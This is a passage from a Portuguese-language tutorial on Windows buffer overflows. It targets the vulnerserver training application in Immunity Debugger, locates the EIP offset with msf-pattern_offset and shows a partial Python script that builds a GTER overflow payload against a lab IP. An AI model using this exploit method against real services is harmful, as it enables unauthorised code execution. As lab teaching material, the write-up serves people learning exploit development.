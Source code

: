 Após reiniciar o vulnserver no Immunity, vamos rodar o script e monitorar o comportamento.

![Enumaração do comando.](/std/winbof/winbof-26.png)

Temos o endereço de EIP de 41396541, vamos consultar no msf-pattern_offset.

```bash
$ msf-pattern_offset -l 309 -q 41396541
[*] Exact match at offset 147
```

Sabemos que o offset para atingir o EIP é de 147, vamos enviar 147 “A” + 4 “B” e o restande de “C” para validar. Se o offset estiver correto, nosso EIP será preenchido com “42424242” e os outros 20 bytes com “43”.

xplgter.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# payload a ser enviado
offset = 147

payload = b"GTER /.:/" # funcao inicial
payload += b"A" * offset 
payload += b"B"*4
payload += b"C" * (309 - 147 - 4)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))
```